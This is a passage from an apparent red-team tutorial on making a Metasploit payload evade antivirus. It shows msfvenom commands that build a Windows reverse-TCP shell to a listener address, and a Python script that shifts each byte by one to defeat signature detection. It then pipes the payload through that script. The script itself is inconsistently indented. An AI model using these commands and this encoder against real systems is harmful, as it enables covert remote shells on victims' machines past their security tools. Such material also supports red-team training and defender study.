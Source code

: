 ```
exit
```

## Memory Injection

Now we will work on how we can make a Metasploit payload undetectable by most of the antiviruses.
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw exitfunc=thread > test1.exe
```

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/DefenseEvasion/Screen20.png?raw=true)

A lot of antiviruses mark it as malicious.

Python code to change the metasploit payload by adding one to every byte and save the encoded result.

```
# Python Encoder Script
import sys

# Original Data in Bytes
original_data = bytearray(sys.stdin.read())

# New Data in Decimal
new_shellcode = []
for opcode in original_data:
	if opcode == 255:
		new_opcode = opcode
  else:
		new_opcode = opcode + 0x01

	new_shellcode.append(new_opcode)

# New Data in Hex
print "New Data in Hex:"
print "".join(["\\x{0}".format(hex(abs(i)).replace("0x", "")) for i in new_shellcode])

# New Data in Bytes
new_bytes = bytearray()
for i in new_shellcode:
	new_bytes.append(chr(i))

# Store Data in File
newFile = open('test2.exe','w')
newFile.write(new_bytes)
newFile.close()
```

Pass the metasploit payload through pipe to the python code to perform the encoding and save the result as test2.exe file.
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw exitfunc=thread | python encoder.py 
```
